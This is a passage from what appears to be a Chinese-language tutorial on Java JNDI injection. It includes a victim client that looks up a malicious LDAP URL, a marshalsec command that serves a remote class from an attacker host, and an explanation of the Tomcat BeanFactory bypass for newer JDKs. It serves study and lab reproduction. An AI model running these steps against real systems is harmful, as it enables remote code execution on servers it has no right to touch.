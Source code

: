 **1.5 执行客户端，访问远程LDAP服务器（ubuntu作为受害机客户端，JDK版本控制为8u191以下）**

```java
package com.yy.jndi.ldap;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
            String uri = "ldap://192.168.202.1:9999/Evail";
            Context ctx = new InitialContext();
            ctx.lookup(uri);
    }
}
```

1.6 执行成功 弹出计算器

**利用marshalsec**

其实以上发布ldap服务端的操作可以使用marshalsec来快速完成：

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.202.1:8000/#Evail 9999
```

# ****8u191之后****

## ****JNDI+RMI的高版本绕过****

com.sun.jndi.rmi.object.trustURLCodebase、

com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false

即默认不允许从远程的Codebase加载Reference工厂类

所以原本的远程加载恶意类的方式已经失效，不过并没有限制从本地进行加载类文件，比如org.apache.naming.factory.BeanFactory

### ****利用tomcat8的类****

利用类为`org.apache.naming.factory.BeanFactory`（前提是受害机器得有tomcat的这个jar包）

org.apache.naming.factory.BeanFactory的绕过原理：

EL和Groovy之所以能打是因为LDAP和RMI在收到服务端反序列化来的`Reference`对象后根据`classFactory`属性从本地classpath中实例化一个 ObjectFactory 对象，然后调用这个对象的 `getObjectInstance` 方法。

在Tomcat的`catalina.jar`中有一个`org.apache.naming.factory.BeanFactory`类，这个类会把`Reference`对象的`className`属性作为类名去调用无参构造方法实例化一个对象。然后再从`Reference`对象的Addrs参数集合中取得 AddrType 是 forceString 的 String 参数。

接着根据取到的 forceString 参数按照`,`逗号分割成多个要执行的方法。再按`=`等于号分割成 propName 和 param。

最后会根据 propName 作为方法名称去反射获取一个参数类型是 `String.class`的方法，并按照 param 从 Addrs 中取到的 String 对象作为参数去反射调用该方法。
